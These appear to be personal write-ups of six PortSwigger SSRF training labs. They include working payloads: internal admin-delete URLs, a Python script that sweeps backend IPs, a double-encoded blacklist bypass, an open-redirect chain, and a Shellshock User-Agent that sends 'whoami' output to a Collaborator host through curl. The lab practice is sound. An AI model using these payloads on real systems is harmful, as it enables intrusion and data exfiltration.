

# Portswigger Writeups

## Lab 1: Basic SSRF against local server

This lab has an admin interface at `http://localhost/admin`. To solve the lab, delete `carlos`.

When checking stock for a product, I see this request being made via a `stockApi` POST parameter.


Change this to `http://localhost/admin/delete?username=carlos` and send the request to solve the lab.

## Lab 2: SSRF to backend

This lab has an admin interface on `192.168.0.X` on port 8080. To solve the lab, delete `carlos`.

Same thing, there's a `stockApi` parameter that accesses `http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1`.

To solve this lab, I can create a script to brute force each `/admin/delete?username=carlos` interface.

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a0c00de04d67e5283264bd1007f00cb'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

for i in range(195, 255):
	octet = str(i)
	print(f'Testing 192.168.0.{octet}')
	data = {
		'stockApi': f'http://192.168.0.{octet}:8080/admin/delete?username=carlos'
	}
	r = s.post(url + '/product/stock', data=data, proxies=proxies, verify=False)
```

Pretty simple.

## Lab 3: Blind SSRF

This requires Burp Collaborator, and the lab uses analytics software which fetches the URL specified in the `Referer` header when a product page is loaded.

Pretty simple, replace the `Referer` header with what is required:


## Lab 4: Blacklist Input Filter

This lab has a blacklist, and an admin interface at `http://localhost/admin`.



I tested using payloads from PayloadAllTheThings, and eventually the short-handed IP address worked in bypassing the checker:


Writing `/admin` results in me getting blocked again, which is probably the second protection used by the lab.

I noticed the visiting `http://127.1/delete?username=carlos` was allowed, which means the `admin` string is being blocked. To bypass this, I used double URL-encoding of `a` to `%2561`. 

```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

## Lab 5: Open Redirection

This lab has an admin interface at `http://192.168.0.12:8080/admin`, and there's an open redirect vulnerability somewhere on the site.

The `stockApi` variable has now been set to the local application.

```
stockApi=/product/stock/check?productId=2&storeId=1
```

Within this particular lab, there's a 'Next Product' function:


The above sends this request:


The `path` variable looks vulnerable since it places its value within the `Location` header in the response.


Changing it to the `path` variable redirects me to the admin panel, which obviously doesn't work since I do not have any connection to the LAN backend.

Since the `stockApi` is restricted to the **local application**, I can make the `stockApi` function be redirected to the admin interface instead, since it should be connected to it. 

Setting the `stockApi` to `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos` solves the lab.

## Lab 6: Shellshock

This lab is vulnerable to the Shellshock exploit, allowing for RCE. The `Referer` header is the vulnerable header. 

To solve this lab, exfiltrate the name of the OS user. 

Shellshock means that the `User-Agent` header is vulnerable (most of the time).


When I changed the `Referer` header to a Burpsuite Collaborator URL, this is what I get:


So the `Referer` header is vulnerable to SSRF since it visits any URL specified. This means I can set the `Referer` header to the internal server on `192.168.0.0/24`. This server is the one vulnerable to Shellshock.

Afterwards, I can set the `User-Agent` to this:

```
() { :; }; /usr/bin/curl BURP.oastify.com/$(whoami)
```

This would execute `curl` on the Collaborator URL and use a subshell to get the username. Next, I have to brute force each IP address via Intruder / Python to see which one is valid. The valid IP address would be served the payload, and thus trigger the RCE.

Burp Intruder can do this:


After the brute force is done, Collaborator receives this:

